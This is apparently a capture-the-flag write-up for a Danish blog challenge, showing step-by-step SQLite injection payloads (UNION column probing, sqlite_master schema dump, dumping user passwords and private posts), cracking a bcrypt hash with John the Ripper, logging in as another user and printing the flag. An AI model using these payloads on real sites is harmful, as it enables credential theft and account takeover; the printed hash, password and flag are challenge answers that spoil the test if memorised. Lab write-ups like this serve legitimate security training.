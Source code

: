# im-blogging-you.md

Proposed difficulty: Hard

8 solves

```text
Hejsa! Jeg vil gerne byde dig velkommen til im-blogging you. Im-blogging you er en blog side, hvor du kan oprette dig som bruger og poste dine tanker og følelser. Vi har også mulighed for at lave private post som er kun tilgængelig for dig! Vi håber at se dig poste løs på vores fantastiske blog side!
http://im-blogging.hkn
```

# Solution

We are presented with a simple page, when logged in we are greeted with the following:

![Screenshot of the page](../_images/im-blogging-you-1.png)

By looking around on the site, here are some of the things we can do:

1. Create a post
   - A post contains title and content
   - Can be either private or public
2. Search for posts and users
3. Update our account details

## The vulnerability

After some digging around, I found an SQL injection in the search functionality.

I can search for users with the following query:

`' OR 1=1; -- -`

This gives me a list of all users on the platform.

<details>

<summary>Users</summary>

| Users                 |
| --------------------- |
| admin                 |
| Kevin Miller          |
| Jessica King          |
| Brian Novak           |
| Danny Hines           |
| John Liu              |
| Mary Patrick          |
| Debbie Bishop         |
| Denise Miller         |
| Mrs. Whitney Anderson |
| Sherry Clark          |
| Paul Nelson           |
| Ryan Bennett          |
| Sandra Savage         |
| Christopher Fleming   |
| Mark Smith            |
| Mary Grant            |
| Dana Williams         |
| Vincent Brady         |
| Kristen Russell       |
| Bobby Tables          |

</details>

Let's try to get some better SQLi and explore the database schema. I will do this using a `UNION` injection. First we have to find out how many columns the original query for searching for users has.

We can do this by expanding this query's `SELECT` statement:

`' AND 1=2 UNION ALL SELECT 1; -- -`

`' AND 1=2 UNION ALL SELECT 1, 2; -- -`

`' AND 1=2 UNION ALL SELECT 1, 2, 3; -- -`

And so on until we find the right amount of columns.

This query has 5 columns. Furthermore it is only the second column that is shown in the frontend.

Before proceeding, I want to know which DBMS we are dealing with, such that I can consider which options are available to me. I found out it is SQLite as we can concatenate with `||`. POC:

`' AND 1=2 UNION ALL SELECT 1, 'h'||'ello', 3, 4, 5; -- -`

This gives us the text `hello`.

## SQLi magic

Let's learn more about the database schema.

To quote the [SQLite documentation](https://sqlite.org/schematab.html):

> Every SQLite database contains a single "schema table" that stores the schema for that database. The schema for a database is a description of all of the other tables, indexes, triggers, and views that are contained within the database. The schema table looks like this:
>
> ```sql
> CREATE TABLE sqlite_schema (
>   type text,
>   name text,
>   tbl_name text,
>   rootpage integer,
>   sql text
> );
> ```
>
> The sqlite_schema table contains one row for each table, index, view, and trigger (collectively "objects") in the schema, except there is no entry for the sqlite_schema table itself. See the schema storage subsection of the file format documentation for additional information on how SQLite uses the sqlite_schema table internally.

The documentation also lists these alternative names:

- sqlite_master
- sqlite_temp_schema
- sqlite_temp_master

After a bit of fiddling I found out that the schema table is actually called `sqlite_master`. We can use this knowledge to dump information about the database

`' AND 1=2 UNION ALL SELECT 1, sql, 3, 4, 5 FROM sqlite_master WHERE type = 'table'; -- -`

This query gives us the following output:

```sql
CREATE TABLE user (
  id INTEGER NOT NULL, 
  username VARCHAR(20) NOT NULL, 
  email VARCHAR(120) NOT NULL, 
  image_file VARCHAR(20) NOT NULL, 
  password VARCHAR(60) NOT NULL, 
  PRIMARY KEY (id), 
  UNIQUE (username), 
  UNIQUE (email)
)
        
CREATE TABLE post (
  id INTEGER NOT NULL, 
  title VARCHAR(100) NOT NULL, 
  date_posted DATETIME NOT NULL, 
  content TEXT NOT NULL, 
  user_id INTEGER NOT NULL, 
  private BOOLEAN NOT NULL, 
  PRIMARY KEY (id), 
  FOREIGN KEY(user_id) REFERENCES user (id)
)
```

I imagine that the flag must be in one of these columns somewhere, so I just dumped them all in two queries:

`' AND 1=2 UNION ALL SELECT 1, id||username||email||image_file||password, 3, 4, 5 FROM user; -- -`

This did not yield the flag.

Let's try dumping all posts:

`' AND 1=2 UNION ALL SELECT 1, title||content||user_id, 3, 4, 5 FROM post; -- -`

This did not yield the flag either, but an interesting post was made by user with ID 21 (Bobby Tables):

```text
My private post are only for me

How awesome! I can use these private posts for private stuff!!, That means i dont have to remember my password:b'$2b$12$Ck0zZrj0AOK2MKgzmEXJ5OclVjPw0plu9LfXl6TBvqHXkjocvAKHi'
```

This password is the same that I got when dumping users, so it seems weird that a user should know their own bcrypt hash.

## Cracking the password

We can now use John the Ripper to crack the password from the note. The password is a bcrypt hash:

`$2b$12$Ck0zZrj0AOK2MKgzmEXJ5OclVjPw0plu9LfXl6TBvqHXkjocvAKHi`

```text
$ echo '$2b$12$Ck0zZrj0AOK2MKgzmEXJ5OclVjPw0plu9LfXl6TBvqHXkjocvAKHi' > hash
$ john --format=bcrypt --wordlist=rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

I left this running in the background.

After a while I got the password: `running1`

## Profit

We can now log in as Bobby Tables, by using the email we also dumped in the SQL injection (`Bobby@tables.com`), and use  the password `running1`.

When going into the account settings, the flag is in the email field:

![Screenshot of the page](../_images/im-blogging-you-2.png)

# Flag

`DDC{MY_S0NS_N4M3_1S_B0BBY_T4BL3S}`
